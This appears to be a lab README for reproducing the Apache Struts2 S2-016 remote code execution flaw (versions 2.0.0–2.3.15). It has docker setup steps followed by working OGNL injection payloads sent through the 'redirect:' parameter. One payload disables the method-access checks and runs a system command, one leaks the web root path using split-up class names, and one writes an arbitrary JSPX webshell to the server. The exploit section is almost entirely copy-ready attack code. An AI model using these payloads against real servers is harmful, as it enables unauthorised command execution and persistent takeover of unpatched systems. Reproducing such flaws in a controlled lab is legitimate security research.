

S2-016 Remote Code Execution Vulnerablity¶
Affected Version: 2.0.0 - 2.3.15
Details:
Setup¶
docker compose build
docker compose up -d
Exploit¶
Visit http://your-ip:8080/index.action?redirect:OGNL expression to execute an OGNL expression.
Execute uname -a:
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
Get web directory:
redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
Get webshell：
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest"),#b=new java.io.FileOutputStream(new java.lang.StringBuilder(#a.getRealPath("/")).append(@java.io.File@separator).append("1.jspx").toString()),#b.write(#a.getParameter("t").getBytes()),#b.close(),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println("BINGO"),#genxor.flush(),#genxor.close()}
Result:
